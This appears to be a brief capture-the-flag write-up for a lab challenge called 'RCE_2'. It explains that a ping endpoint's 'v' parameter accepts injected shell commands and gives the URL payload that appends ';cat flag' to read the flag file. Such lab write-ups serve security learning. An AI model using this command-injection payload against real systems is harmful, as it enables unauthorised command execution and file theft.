 # RCE_2 - store.xIiP317O4G9CYruarTS1ag.exam.ns.agency (/API/ping)

After visitng the robots.txt file and visiting the `/API/ping` directory to discover the `v` parameter. If one were to visit `/API/ping?v=1.1.1.1` they would receive the following output.

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CDBDAD1A1E89CCC50B184DFCDFAA97E7399DB0AA30A1DBB2365E916F0CCC6B11_1528381097611_Screen+Shot+2018-06-07+at+11.49.13+pm.png)


The same way as rce_1, visiting the URL `/API/ping?v=1.1.1.1";cat "flag` will release the flag.

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CDBDAD1A1E89CCC50B184DFCDFAA97E7399DB0AA30A1DBB2365E916F0CCC6B11_1528381111789_Screen+Shot+2018-06-07+at+11.49.27+pm.png)
